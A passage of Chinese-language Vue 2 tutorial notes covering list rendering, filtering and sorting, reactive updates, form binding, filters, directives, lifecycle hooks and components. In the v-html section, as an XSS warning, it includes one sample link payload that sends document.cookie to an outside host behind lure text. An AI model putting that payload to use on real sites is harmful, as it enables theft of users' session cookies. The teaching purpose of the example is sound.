     <button @click.once="add">添加一个老刘</button>
     <ul>
       <!-- key在DOM中看不到，因为被Vue内部使用了 -->
       
       <!-- 错误写法：这样会导致新增用户后面的输入框内容不随数据移动 -->
       <!-- <li v-for="(p, index) of persons" :key="index"> -->
         
       <!-- 正确写法：每条数据单独对应的id可以保证输入框的key跟随数据移动 -->
       <li v-for="(p, index) of persons" :key="p.id">
         {{p.name}}-{{p.age}}
         <input type="text" />
       </li>
     </ul>
   </div>
   
   <script type="text/javascript">
     Vue.config.productionTip = false
     new Vue({
       el: '#root',
       data: {
         persons: [
           { id: '001', name: '张三', age: 18 },
           { id: '002', name: '李四', age: 19 },
           { id: '003', name: '王五', age: 20 },
         ],
       },
       methods: {
         add() {
           const p = { id: '004', name: '老刘', age: 40 }
           // unshift：插入数组最前面
           this.persons.unshift(p)
         },
       },
     })
   </script>
   ```

#### 1.8.3 列表过滤 filter

1. 语法：`arr.filter(callback(element[,index[,array]]))`，返回一个新数组，不会改变原数组

   1）callback：用来测试数组的每个元素的函数；返回 true 表示该元素通过测试，保留该元素，false 则不保留

   2）element：数组中当前正在处理的元素

   3）index(可选)：正在处理的元素在数组中的索引

   4）array(可选)：调用了 filter 的数组本身

2. 案例：按名称筛选人员列表

   ```html
   <div id="root">
   	<h2>人员列表</h2>
   	<input type="text" placeholder="请输入名字" v-model="keyWord">
   	<ul>
   		<li v-for="(p,index) of filPerons" :key="index">
   			{{p.name}}-{{p.age}}-{{p.sex}}
   		</li>
   	</ul>
   </div>
   ```

   1）用watch实现：`handler(val) ==> indexOf(val)`

   ```js
   new Vue({
   	el:'#root',
   	data:{
   		keyWord:'',
   		persons:[
   			{id:'001',name:'马冬梅',age:19,sex:'女'},
   			{id:'002',name:'周冬雨',age:20,sex:'女'},
   			{id:'003',name:'周杰伦',age:21,sex:'男'},
   			{id:'004',name:'温兆伦',age:22,sex:'男'}
   		],
   		filPerons:[]
   	},
   	watch:{
   		keyWord:{
   			immediate:true,
   			handler(val){
   				this.filPerons = this.persons.filter((p)=>{
   					// 注意：所有字符串中都包含空字符串''，且索引值在第0位
   					return p.name.indexOf(val) !== -1
   				})
   			}
   		}
   	}
   })
   ```

   2）用computed实现：`indexOf(this.keyword)`

   ```js
   new Vue({
   	el:'#root',
   	data:{
   		keyWord:'',
   		persons:[
   			{id:'001',name:'马冬梅',age:19,sex:'女'},
   			{id:'002',name:'周冬雨',age:20,sex:'女'},
   			{id:'003',name:'周杰伦',age:21,sex:'男'},
   			{id:'004',name:'温兆伦',age:22,sex:'男'}
   		]
   	},
   	computed:{
   		filPerons(){
   			return this.persons.filter((p)=>{
                   // 注意：所有字符串中都包含空字符串''，且索引值在第0位
   				return p.name.indexOf(this.keyWord) !== -1
   			})
   		}
   	}
   }) 
   ```

#### 1.8.4 列表排序 sort

1. 语法：`arr.sort((firstItem, secondItem) => firstItem.attr - secondItem.attr)`

2. 如果是带筛选功能，一定要先筛选，再排序

   ```html
   <div id="root">
   	<h2>人员列表</h2>
   	<input type="text" placeholder="请输入名字" v-model="keyWord">
   	<button @click="sortType = 2">年龄升序</button>
   	<button @click="sortType = 1">年龄降序</button>
   	<button @click="sortType = 0">原顺序</button>
   	<ul>
   		<li v-for="(p,index) of filPerons" :key="p.id">
   			{{p.name}}-{{p.age}}-{{p.sex}}
   			<input type="text">
   		</li>
   	</ul>
   </div>
   ```

   ```js
   <script type="text/javascript">
   	Vue.config.productionTip = false
   	new Vue({
   		el:'#root',
   		data:{
   			keyWord:'',
   			sortType:0, //0:原顺序 1:降序 2:升序
   			persons:[
   				{id:'001',name:'马冬梅',age:30,sex:'女'},
   				{id:'002',name:'周冬雨',age:31,sex:'女'},
   				{id:'003',name:'周杰伦',age:18,sex:'男'},
   				{id:'004',name:'温兆伦',age:19,sex:'男'}
   			]
   		},
   		computed:{
   			filPerons(){
   				// 注意：先筛选，后排序，必须对筛选后的结果进行排序，所以不能直接返回结果，而要把筛选后结果暂存在arr里
   				const arr = this.persons.filter((p)=>{
   					return p.name.indexOf(this.keyWord) !== -1
   				})
   				//判断一下是否需要排序
   				if(this.sortType){
   					// p1, p2 代表：firstItem, secondItem
   					arr.sort((p1,p2)=>{
   						return this.sortType === 1 ? p2.age-p1.age : p1.age-p2.age
   					})
   				}
   				return arr
   			}
   		}
   	}) 
   </script>
   ```

#### 1.8.5 列表更新 $set

1. 修改Obj格式的数据

   1）用索引修改数组中的对象的属性，Vue可以识别，例：`this.persons[0].name = '马老师'`

   2）直接修改其中一整条对象数据会导致DOM被修改但Vue不渲染页面

   * 无效方法：用索引直接修改

     ```js
     this.persons[0] = {id:'001',name:'马老师',age:50,sex:'男'}
     ```

   * 解决方案：splice

     ```js
     this.persons.splice(0,1,{id:'001',name:'马老师',age:50,sex:'男'})
     ```

   3）完整案例代码

   ```html
   <div id="root">
   	<h2>人员列表</h2>
   	<button @click="updateMei">更新马冬梅的信息</button>
   	<ul>
   		<li v-for="(p,index) of persons" :key="p.id">
   			{{p.name}}-{{p.age}}-{{p.sex}}
   		</li>
   	</ul>
   </div>
   ```

   ```js
   Vue.config.productionTip = false
   const vm = new Vue({
   	el:'#root',
   	data:{
   		persons:[
   			{id:'001',name:'马冬梅',age:30,sex:'女'},
   			{id:'002',name:'周冬雨',age:31,sex:'女'},
   			{id:'003',name:'周杰伦',age:18,sex:'男'},
   			{id:'004',name:'温兆伦',age:19,sex:'男'}
   		]
   	},
   	methods: {
   		updateMei(){
               // 方法1：用索引修改数组中的对象的属性
   			// this.persons[0].name = '马老师' //奏效
   			// this.persons[0].age = 50 //奏效
   			// this.persons[0].sex = '男' //奏效
               
               // 无效方法：用索引直接修改一整条对象
   			// this.persons[0] = {id:'001',name:'马老师',age:50,sex:'男'} 
               
               // 方法2：splice
   			this.persons.splice(0,1,{id:'001',name:'马老师',age:50,sex:'男'})
   		}
   	}
   }) 
   ```

2. 修改Arr格式的数据

   1）用索引值的方法替换数组值，Vue不会识别

   2）解决方案1：`push()`、`pop()`、`shift()`、`unshift()`、`splice()`、`sort()`、`reverse()`

   3）解决方案2：`vm.$set(arr, index, value)`

3. 使用`$set`更新数据

   1）方法1：`this.$set(target, propertyName/index, value)`

   2）方法2：`Vue.set(target, propertyName/index, value)`，不能给 vm 或 vm._data 添加属性，只能给vm的data中的某一个对象添加属性

   3）方法3：`vm.$set(target, propertyName/index, value)`，不能给 vm 或 vm._data 添加属性，只能给vm的data中的某一个对象添加属性

   ```html
   <div id="root">
     <h1>学生信息</h1>
     <button @click="student.age++">年龄+1岁</button> <br />
     <button @click="addSex">添加性别属性，默认值：男</button> <br />
     <button @click="student.sex = '未知' ">修改性别</button> <br />
     <button @click="addFriend">在列表首位添加一个朋友</button> <br />
     <button @click="updateFirstFriendName">修改第一个朋友的名字为：张三</button> <br />
     <button @click.once="addHobby">添加一个爱好</button> <br />
     <button @click="updateHobby">修改第一个爱好为：开车</button> <br />
     <button @click="removeSmoke">过滤掉爱好中的抽烟</button> <br />
     <h3>姓名：{{student.name}}</h3>
     <h3>年龄：{{student.age}}</h3>
     <h3 v-if="student.sex">性别：{{student.sex}}</h3>
     <h3>爱好：</h3>
     <ul>
       <li v-for="(h,index) in student.hobby" :key="index">{{h}}</li>
     </ul>
     <h3>朋友们：</h3>
     <ul>
       <li v-for="(f,index) in student.friends" :key="index">{{f.name}}--{{f.age}}</li>
     </ul>
   </div>
   ```

   ```js
   Vue.config.productionTip = false
   const vm = new Vue({
     el: '#root',
     data: {
       student: {
         name: 'tom',
         age: 18,
         hobby: ['抽烟', '喝酒', '烫头'],
         friends: [
           { name: 'jerry', age: 35 },
           { name: 'tony', age: 36 },
         ],
       },
     },
     methods: {
       addSex() {
         // Vue.set(this.student,'sex','男')
         this.$set(this.student, 'sex', '男')
       },
       addFriend() {
         this.student.friends.unshift({ name: 'jack', age: 70 })
       },
       updateFirstFriendName() {
         // 用索引值的方法替换数组值，Vue不会识别，但如果用索引修改数组中的对象的属性，Vue可以识别
         this.student.friends[0].name = '张三'
       },
       addHobby() {
         this.student.hobby.push('学习')
       },
       updateHobby() {
         // this.student.hobby.splice(0,1,'开车')
         // Vue.set(this.student.hobby,0,'开车')
         this.$set(this.student.hobby, 0, '开车')
       },
       removeSmoke() {
         this.student.hobby = this.student.hobby.filter((h) => {
           return h !== '抽烟'
         })
       },
     },
   })
   ```

#### 1.8.6 删除数据 $delete

1. 作用：与`$set`相反，可以删除对象身上的属性

   ```js
   methods: {
     deleteAttr() {
       // Vue.delete(this.dataName, 'attr')
       this.$delete(this.dataName, 'attr')
     },
   },
   ```

------

### 1.9 表单数据

#### 1.9.1 input输入框

1. `<input type="text"/>`：v-model收集的是value值，用户输入的就是value值

   ```html
   <input type="text" v-model.trim="userInfo.account" />
   ```

2. `<input type="radio"/>`：v-model收集的是value值，且要给标签配置value值

   ```html
   性别： 男<input type="radio" name="sex" v-model="userInfo.sex" value="male" /> 女<input type="radio" name="sex" v-model="userInfo.sex" value="female" />
   ```

   ```js
   // vue
   sex: 'female',
   ```

3. `<input type="checkbox"/>`：

   1）没有配置input的value属性，那么收集的就是checked（勾选 or 未勾选，是布尔值）

   2）配置了input的value属性：

   * v-model的初始值是数组，那么收集的的就是value组成的数组

     ```html
     爱好： 学习<input type="checkbox" v-model="userInfo.hobby" value="study" /> 打游戏<input type="checkbox" v-model="userInfo.hobby" value="game" /> 吃饭<input type="checkbox" v-model="userInfo.hobby" value="eat" />
     ```

     ```js
     // vue
     hobby: [], // 如果是多选框checkbox，要配合数组，否则一勾全勾上了
     ```

   * v-model的初始值是非数组，那么收集的就是checked（勾选 or 未勾选，是布尔值）

     ```html
     <input type="checkbox" v-model="userInfo.agree" />阅读并接受<a href="http://www.atguigu.com">《用户协议》</a>
     ```

     ```js
     // vue
     agree: '', // 如果是单选框checkbox，不用配合数组，只收集true、false
     ```

#### 1.9.2 select下拉框

1. 与`option`选项搭配：

   ```html
   <select v-model="userInfo.city">
     <option value="">请选择校区</option>
     <option value="beijing">北京</option>
     <option value="shanghai">上海</option>
     <option value="shenzhen">深圳</option>
     <option value="wuhan">武汉</option>
   </select>
   ```

   ```js
   // Vue
   city: 'beijing',
   ```

2. 案例完整代码

   ```html
   <div id="root">
     <form @submit.prevent="demo">
       <!--收集的是value值，不用配value，因为用户输入的就是value值-->
       账号：<input type="text" v-model.trim="userInfo.account" /> <br /><br />
       密码：<input type="password" v-model="userInfo.password" /> <br /><br />
       年龄：<input type="number" v-model.number="userInfo.age" /> <br /><br />
       <!--收集的是value值，要配value值-->
       性别： 男<input type="radio" name="sex" v-model="userInfo.sex" value="male" /> 女<input type="radio" name="sex" v-model="userInfo.sex" value="female" /> <br /><br />
       <!--配置了value属性，v-model初始值是数组，收集的是数组-->
       爱好： 学习<input type="checkbox" v-model="userInfo.hobby" value="study" /> 打游戏<input type="checkbox" v-model="userInfo.hobby" value="game" /> 吃饭<input type="checkbox" v-model="userInfo.
   hobby" value="eat" /> <br /><br />
       所属校区
       <select v-model="userInfo.city">
         <option value="">请选择校区</option>
         <option value="beijing">北京</option>
         <option value="shanghai">上海</option>
         <option value="shenzhen">深圳</option>
         <option value="wuhan">武汉</option>
       </select>
       <br /><br />
       其他信息：
       <textarea v-model.lazy="userInfo.other"></textarea> <br /><br />
       <!--没有配置value属性，收集的是checked布尔值-->
       <input type="checkbox" v-model="userInfo.agree" />阅读并接受<a href="http://www.atguigu.com">《用户协议》</a>
       <button>提交</button>
     </form>
   </div>
   ```

   ```js
   Vue.config.productionTip = false
   new Vue({
     el: '#root',
     data: {
       userInfo: {
         account: '',
         password: '',
         age: 18,
         sex: 'female',
         hobby: [], // 如果是多选框checkbox，要配合数组，否则一勾全勾上了
         city: 'beijing',
         other: '',
         agree: '', // 如果是单选框checkbox，不用配合数组，只收集true、false
       },
     },
     methods: {
       demo() {
         console.log(JSON.stringify(this.userInfo))
       },
     },
   })
   ```


### 1.10 过滤器 Vue.filter

> 对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理），并没有改变原本的数据, 是产生新的对应的数据

#### 1.10.1 注册过滤器

1. 全局过滤器：`Vue.filter(name,callback)`

   ```js
   Vue.filter('mySlice', function (value) {
     return value.slice(0, 4)
   })
   ```

2. 局部过滤器：`new Vue{filters:{...}}`

   ```js
   filters: {
     timeFormater(value, str = 'YYYY年MM月DD日 HH:mm:ss') {
       return dayjs(value).format(str)
     },
   },
   ```

#### 1.10.2 使用过滤器

1. `{{ xxx | 过滤器名}}`

   ```html
   <div id="root2">
     <h2>{{msg | mySlice}}</h2>
   </div>
   <h3>现在是：{{time | timeFormater}}</h3>
   ```

2. `v-bind:属性 = "xxx | 过滤器名"`

   ```html
   <h3 :x="msg | mySlice">尚硅谷</h3>
   ```

3. 过滤器也可以接收额外参数、多个过滤器也可以串联

   ```html
   <h3>现在是：{{time | timeFormater('YYYY_MM_DD') | mySlice}}</h3>
   ```

4. 完整案例代码

   ```html
   <div id="root">
     <h2>显示格式化后的时间</h2>
     <!-- 计算属性实现 -->
     <h3>现在是：{{fmtTime}}</h3>
     <!-- methods实现 -->
     <h3>现在是：{{getFmtTime()}}</h3>
     <!-- 过滤器实现 -->
     <h3>现在是：{{time | timeFormater}}</h3>
     <!-- 过滤器实现（传参） -->
     <!-- 多个过滤器可以并联 -->
     <h3>现在是：{{time | timeFormater('YYYY_MM_DD') | mySlice}}</h3>
     <!-- 给标签动态绑定属性，例：绑定属性x，值为'你好，尚' -->
     <h3 :x="msg | mySlice">尚硅谷</h3>
   </div>
   <div id="root2">
     <h2>{{msg | mySlice}}</h2>
   </div>
   ```

   ```js
   Vue.config.productionTip = false
   //全局过滤器
   Vue.filter('mySlice', function (value) {
     return value.slice(0, 4)
   })
   // root1
   new Vue({
     el: '#root',
     data: {
       time: 1621561377603, //时间戳
       msg: '你好，尚硅谷',
     },
     computed: {
       fmtTime() {
         return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
       },
     },
     methods: {
       getFmtTime() {
         return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
       },
     },
     //局部过滤器
     filters: {
       timeFormater(value, str = 'YYYY年MM月DD日 HH:mm:ss') {
         // console.log('@',value)
         return dayjs(value).format(str)
       },
     },
   })
   // root2
   new Vue({
     el: '#root2',
     data: {
       msg: 'hello,atguigu!',
     },
   })
   ```

### 1.11 内置指令 v-xxx

#### 1.11.1 基础指令

1. v-bind: 单向绑定解析表达式，可简写为: xxx
2. v-model: 双向数据绑定
3. v-for: 遍历数组/对象/字符串
4. v-on: 绑定事件监听，可简写为@
5. v-if: 条件渲染（动态控制节点是否存存在）
6. v-else: 条件渲染（动态控制节点是否存存在）
7. v-show: 条件渲染(动态控制节点是否展示)

#### 1.11.2 v-text

1. 作用：向其所在的节点中渲染文本内容

2. 区别：v-text会替换掉节点中的内容，{{xxx}}则不会

3. 注意：文字中的html标签不会被解析，而是直接显示

   ```html
   <div id="root">
     <div>你好，{{name}}</div>
     <div v-text="name">我被替换了</div>
     <div v-text="str"></div>
   </div>
   ```

   ```js
   Vue.config.productionTip = false
   new Vue({
     el: '#root',
     data: {
       name: '尚硅谷',
       str: '<h3>你好啊！</h3>', // 这里<h3>不会被当成html标签解析，而是直接显示出来
     },
   })
   ```

#### 1.11.3 v-html

1. 作用：向指定节点中渲染包含html结构的内容

2. 区别：

   1）v-html会替换掉节点中所有的内容，{{xxx}}则不会

   2）v-html可以识别html结构

3. 注意：

   1）v-html有安全性问题

   2）在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击

   3）一定要在可信的内容上使用v-html，永不要用在用户提交的内容上

   ```html
   <div id="root">
     <div>你好，{{name}}</div>
     <div v-html="str"></div>
     <div v-html="str2"></div>
   </div>
   ```

   ```js
   Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
   new Vue({
     el: '#root',
     data: {
       name: '尚硅谷',
       str: '<h3>你好啊！</h3>',
       // 可用 document.cookie 获取当前网站的 cookie，但如果标记了 HttpOnly 则无法读取
       str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
     },
   })
   ```

#### 1.11.4 v-cloak

1. 定义：本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性

2. 作用：使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题

3. 效果：如果需要vue加载的资源速度很慢，可以加上此属性，等vue加载完成后再显示，不然直接显示模板符号很丑

   ```html
   <div id="root">
     <h2 v-cloak>{{name}}</h2>
   </div>
   <script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
   ```

   ```js
   console.log(1)
   Vue.config.productionTip = false
   new Vue({
     el: '#root',
     data: {
       name: '尚硅谷',
     },
   })
   ```

#### 1.11.5 v-once

1. 定义：v-once所在节点在初次动态渲染后，就视为静态内容了

2. 作用：以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能

   ```html
   <div id="root">
     <h2 v-once>初始化的n值是:{{n}}</h2>
     <h2>当前的n值是:{{n}}</h2>
     <button @click="n++">点我n+1</button>
   </div>
   ```

   ```js
    Vue.config.productionTip = false
    new Vue({
      el: '#root',
      data: {
        n: 1,
      },
    })
   ```

#### 1.11.6 v-pre

1. 定义：跳过其所在节点的编译过程

2. 作用：没有使用指令语法、没有使用插值语法的节点，会加快编译

   ```html
   <div id="root">
     <h2 v-pre>Vue其实很简单</h2>
     <h2>当前的n值是:{{n}}</h2>
     <button @click="n++">点我n+1</button>
   </div>
   ```

   ```js
   Vue.config.productionTip = false
   new Vue({
     el: '#root',
     data: {
       n: 1,
     },
   })
   ```

### 1.12 自定义指令 directives

1. 局部指令：

   1）`new Vue({directives:{指令名: 回调函数}}) `

   2）`new Vue({directives:{指令名: 配置对象}})`

   ```html
   <div id="root">
     <h2>{{name}}</h2>
     <h2>当前的n值是：<span v-text="n"></span></h2>
     <!-- <h2>放大10倍后的n值是：<span v-big-number="n"></span> </h2> -->
     <h2>放大10倍后的n值是：<span v-big="n"></span></h2>
     <button @click="n++">点我n+1</button>
     <hr />
     <input type="text" v-fbind:value="n" />
   </div>
   ```

   ```js
   Vue.config.productionTip = false
   new Vue({
     el: '#root',
     data: {
       name: '尚硅谷',
       n: 1,
     },
     // 自定义指令：局部指令
     directives: {
       big(element, binding) {
         console.log('big', this) //注意此处的this是window
         element.innerText = binding.value * 10
       },
       
       // 对象式
       fbind: {
         //指令与元素成功绑定时（一上来）
         bind(element, binding) {
           element.value = binding.value
         },
         //指令所在元素被插入页面时
         inserted(element, binding) {
           element.focus()
         },
         //指令所在的模板被重新解析时
         update(element, binding) {
           element.value = binding.value
         },
       },
     },
   })
   ```

2. 全局指令：

   1）`Vue.directive(指令名, 回调函数)`

   2）`Vue.directive(指令名, 配置对象)`

   ```js
   //定义全局指令
   Vue.directive('big', function (element, binding) {
     console.log('big', this)
     element.innerText = binding.value * 10
   })
   
   Vue.directive('fbind', {
     //指令与元素成功绑定时（一上来）
     bind(element, binding) {
       element.value = binding.value
     },
     //指令所在元素被插入页面时
     inserted(element, binding) {
       element.focus()
     },
     //指令所在的模板被重新解析时
     update(element, binding) {
       element.value = binding.value
     },
   })
   ```

3. 回调：

   1）`bind`：指令与元素成功绑定时调用

   2）`inserted`：指令所在元素被插入页面时调用

   3）`update`：指令所在模板结构被重新解析时调用

   4）参数：

   * `element`：指令所在的DOM元素
   * `binding`：绑定对象，内部包含很多属性，最重要的是value，代表自定义方法绑定的值

4. 注意：

   1）指令定义时不加`v-`，但使用时要加`v-`

   2）指令名如果是多个单词，要使用`kebab-case`命名方式，不要用camelCase命名，且要加单引号

   ```js
   'big-number'(element,binding){
   	element.innerText = binding.value * 10
   },
   ```

### 1.13 生命周期函数

> 生命周期回调函数、生命周期函数、生命周期钩子，Vue在关键时刻调用的一些特殊名称的函数。


1. `beforeCreate()`：无法通过vm访问到data数据、method中的方法

2. `created()`：可以通过vm访问到data数据、method中的方法

3. `beforeMounted()`：页面呈现的是未经Vue编译的DOM结构，所有对DOM的操作都不奏效

4. `mounted()`：Vue完成模板的解析并把初始的真实DOM元素放入页面后（挂载完毕）调用mounted

   1）等价写法：`vm.$mount('#root')`

   2）页面呈现经过Vue编译的DOM，对DOM的操作有效

   3）适用：开启定时器、发送ajax请求、订阅消息、绑定自定义事件

5. `beforeUpdate()`：此时数据是新的，但页面是旧的，页面尚未与数据保持一致

6. `updated()`：此时数据、页面都是新的，两者保持同步

7. `beforeDestroy()`：vm中所有的data、methods、指令等都处于可用状态，马上要执行销毁过程

   1）适用：关闭定时器、取消订阅消息、解绑自定义事件

   2）注意：此时不要调用method中的方法了

8. `destroyed()`：销毁后借助Vue开发者工具看不到任何信息

   1）等价写法：vm.$destroy()

   2）销毁后自定义事件会失效，但原生DOM事件依然有效

   3）一般不会在beforeDestroy操作数据，因为即便操作数据，也不会再触发更新流程了

9. 注意：

   1）生命周期函数中的this指向是 vm 或 组件实例对象vc

   2）生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的

   ```html
   <div id="root" :x="n">
     <!-- 这里面的内容也可以用template生成，但是会忽略上面的div中的所有属性，改成template里写的属性 -->
     <h2 v-text="n"></h2>
     <h2>当前的n值是：{{n}}</h2>
     <button @click="add">点我n+1</button>
     <button @click="bye">点我销毁vm</button>
     <hr />
     
   </div>
   ```

   ```js
   Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
   new Vue({
     el: '#root',
     // template: `
     // 	<div id="root" :x="n">
     // 		<h2>当前的n值是：{{n}}</h2>
     // 		<button @click="add">点我n+1</button>
     // 		<button @click="bye">点我销毁vm</button>
     // 	</div>
     // `,
     data: {
       n: 1,
     },
     methods: {
       add() {
         console.log('add')
         this.n++
       },
       bye() {
         console.log('bye')
         this.$destroy()
       },
     },
     watch: {
       n() {
         console.log('n变了')
       },
     },
     // 创建流程 -------------------------------
     beforeCreate() {
       console.log('beforeCreate')
     },
     created() {
       console.log('created')
     },
     // 挂载流程 -------------------------------
     beforeMount() {
       console.log('beforeMount')
       // console.log(this) // 指向Vue
       // debugger // 打断点，需要打开控制台后刷新才能卡断点
     },
     mounted() {
       // 等价写法：vm.$mount('#root')
       console.log('mounted', this.$el instanceof HTMLElement) // 判断此时是不是真是的DOM元素
     },
     // 更新流程 -------------------------------
     beforeUpdate() {
       console.log('beforeUpdate')
     },
     updated() {
       console.log('updated')
     },
     // 销毁流程 -------------------------------
     beforeDestroy() {
       console.log('beforeDestroy')
       // 在这里不要调用methods中的方法了
     },
     destroyed() {
       // 等价写法：vm.$destroy()
       console.log('destroyed')
     },
   })
   ```

10. 技巧：可以在生命周期函数中写debugger用于打断点，需要打开控制台后刷新生效

    ```js
    beforeMount() {
      console.log('beforeMount')
      // console.log(this) // 指向Vue
      debugger // 打断点，需要打开控制台后刷新才能卡断点
    },
    ```

11. 演示案例

    ```html
    <div id="root">
      <h2 :style="{opacity}">欢迎学习Vue</h2>
      <button @click="opacity = 1">透明度设置为1</button>
      <button @click="stop">点我停止变换</button>
    </div>
    ```

    ```js
    Vue.config.productionTip = false
    new Vue({
      el: '#root',
      data: {
        opacity: 1,
      },
      methods: {
        stop() {
          this.$destroy()
        },
      },
      //Vue完成模板的解析并把初始的真实DOM元素放入页面后（挂载完毕）调用mounted
      mounted() {
        console.log('mounted', this)
        this.timer = setInterval(() => {
          console.log('setInterval')
          this.opacity -= 0.01
          if (this.opacity <= 0) this.opacity = 1
        }, 16)
      },
      beforeDestroy() {
        clearInterval(this.timer)
        console.log('vm即将驾鹤西游了')
      },
    })
    ```

### 1.14 组件 VueComponent

#### 1.14.1 非单文件组件

##### 1.14.1.1 定义组件(创建组件)

1. 语法：

   1）完整版：`const 组件名 = Vue.extend(options)`

   2）简写版：`const 组件名 = options`

2. 参数：

   1）`el`：不写，最终所有的组件都要经过一个vm的管理，由vm中的el决定服务哪个容器

   2）`data`：必须写成函数，避免组件被复用时，数据存在引用关系

3. 组件命名规则：

   1）一个单词：

   * 第一种写法(首字母小写)：school
   * 第二种写法(首字母大写)：School

   2）多个单词：

   * 第一种写法(`kebab-case`命名)：my-school
   * 第二种写法(`CamelCase`命名)：MySchool (需要Vue脚手架支持)

   3）注意：

   * 组件名尽可能回避HTML中已有的元素名称，例如：h2、H2都不行
   * 可以使用name配置项指定组件在开发者工具中呈现的名字

   ```html
   <div id="root">
     <h1>{{msg}}</h1>
     <school></school>
   </div>
   ```
   
   ```js
   // 定义组件：完整写法
   const s = Vue.extend({
      name: 'atguigu', // 如果定义了name，在Vue开发工具里面就永远叫这个名字，但页面标签不是这个名
      template: `
   	 <div>
   		<h2>学校名称：{{name}}</h2>
   		<h2>学校地址：{{address}}</h2>
   	 </div>
   `,
      data() {
        return {
          name: '尚硅谷',
          address: '北京',
        }
      },
    })
   
   new Vue({
     el: '#root',
     data: {
       msg: '欢迎学习Vue!',
     },
     components: {
       // 定义组件绑定的标签名称
       school: s, // 这步Vue会自动绑定Vue.extend(options)
     },
   })
   ```
   
   ```js
   // 定义组件：简写形式
   const s = {
     name: 'atguigu', // 如果定义了name，在Vue开发工具里面就永远叫这个名字，但页面标签不是这个名
     template: `
   	<div>
   	   <h2>学校名称：{{name}}</h2>
   	   <h2>学校地址：{{address}}</h2>
   	</div>
   `,
     data() {
       return {
         name: '尚硅谷',
         address: '北京',
       }
     },
   }
   
   new Vue({
     el: '#root',
     data: {
       msg: '欢迎学习Vue!',
     },
     components: {
       // 定义组件绑定的标签名称
       school: s, // 这步Vue会自动绑定Vue.extend(options)
     },
   })
   ```


##### 1.14.1.2 注册组件

1. 局部注册：new Vue时传入components选项

2. 全局注册：`Vue.component('组件名',组件)`

3. 注意：可以分别指定标签和组件名称，`components: { 标签名：组件名 }`

   ```html
   <div id="root">
     <hello></hello>
     <hr />
     <h1>{{msg}}</h1>
     <hr />
     <!-- 编写组件标签 -->
     <school></school>
     <hr />
     <!-- 编写组件标签 -->
     <student></student>
   </div>
   <div id="root2">
     <hello></hello>
     <!-- 由于student组件是在root中局部注册的，在root2中无效 -->
     <student></student>
   </div>
   ```

   ```js
   // 创建student组件
   const student = Vue.extend({
     template: `
   		<div>
   			<h2>学生姓名：{{studentName}}</h2>
   			<h2>学生年龄：{{age}}</h2>
   		</div>
   	`,
     data() {
       return {
         studentName: '张三',
         age: 18,
       }
     },
   })
   // 创建hello组件
   const hello = Vue.extend({
     template: `
   		<div>	
   			<h2>你好啊！{{name}}</h2>
   		</div>
   	`,
     data() {
       return {
         name: 'Tom',
       }
     },
   })
   
   // 全局注册组件
   Vue.component('hello', hello)
   
   // 创建vm
   new Vue({
     el: '#root',
     data: {
       msg: '你好啊！',
     },
     // 局部注册组件
     components: {
       school,
       student,
     },
   })
   new Vue({
     el: '#root2',
   })
   ```

##### 1.14.1.3 使用组件(写组件标签)

1. 写法1：`<school></school>`
2. 写法2：`<school/>`，但不用使用脚手架时，`<school/>`会导致后续组件不能渲染

##### 1.14.1.4 组件嵌套

* 可以在下一个组件定义时使用已经定义好的组件

  ```html
  <div id="root"></div>
  ```

  ```js
  Vue.config.productionTip = false
  // 定义student组件
  const student = Vue.extend({
    name: 'student',
    template: `
  		<div>
  			<h2>学生姓名：{{name}}</h2>	
  			<h2>学生年龄：{{age}}</h2>	
  		</div>
  	`,
    data() {
      return {
        name: '尚硅谷',
        age: 18,
      }
    },
  })
  
  //定义school组件
  const school = Vue.extend({
    name: 'school',
    template: `
  		<div>
  			<h2>学校名称：{{name}}</h2>	
  			<h2>学校地址：{{address}}</h2>	
  			<student></student>
  		</div>
  	`,
    data() {
      return {
        name: '尚硅谷',
        address: '北京',
      }
    },
    // 注册组件（局部）：由于在template中使用了student，必须注册
    components: {
      student,
    },
  })
  
  //定义hello组件
  const hello = Vue.extend({
    template: `<h1>{{msg}}</h1>`,
    data() {
      return {
        msg: '欢迎来到尚硅谷学习！',
      }
    },
  })
  
  //定义app组件
  const app = Vue.extend({
    template: `
  		<div>	
  			<hello></hello>
  			<school></school>
  		</div>
  	`,
    // 注册组件（局部）：由于在template中使用了student、hello，必须注册
    components: {
      school,
      hello,
    },
  })
  
  // 创建vm
  new Vue({
    template: '<app></app>',
    el: '#root',
    // 注册组件（局部）：由于嵌套组件已经相互在内部注册，直接注册最终的app即可
    components: { app },
  })
  ```

##### 1.14.1.5 组件的本质

1. 组件本质是一个名为`VueComponent`的构造函数，且不是程序员定义的，是`Vue.extend`生成的

2. 只需要写组件标签，Vue解析时会帮我们创建school组件的实例对象：`new VueComponent(options)`

3. 每次调用`Vue.extend`，返回的都是一个全新的`VueComponent`

4. this指向（data函数、methods中的函数、watch中的函数、computed中的函数）

   1）组件配置：指向`VueComponent`实例对象`vc`

   2）`new Vue(options)`配置：指向Vue实例对象`vm`

5. 内置关系：`VueComponent.prototype.__proto__` === `Vue.prototype`
   * 作用：让组件实例对象 vc 可以访问到 Vue原型上的属性、方法
   
   ```html
   <div id="root">
     <school></school>
   </div>
   ```
   ```js
   Vue.config.productionTip = false
   // 在Vue上定义x属性
   Vue.prototype.x = 99
   //定义school组件
   const school = Vue.extend({
     name: 'school',
     template: `
   		<div>
   			<h2>学校名称：{{name}}</h2>	
   			<h2>学校地址：{{address}}</h2>	
   			<button @click="showX">点我输出x</button>
   		</div>
   	`,
     data() {
       return {
         name: '尚硅谷',
         address: '北京',
       }
     },
     methods: {
       showX() {
         // 访问x属性
         console.log(this.x)
       },
     },
   })
   //创建一个vm
   const vm = new Vue({
     el: '#root',
     data: {
       msg: '你好',
     },
     components: { school },
   })
   ```

#### 1.14.2 单文件组件

##### 1.14.2.1 组件结构

1. HTML标签：`<template></template>`
2. Vue.js代码：`<script> export default {...} </script>`
3. CSS样式：`<style></style>`

##### 1.14.2.2 整体结构

1. 组件：

   1）School.vue

   ```vue
   <template>
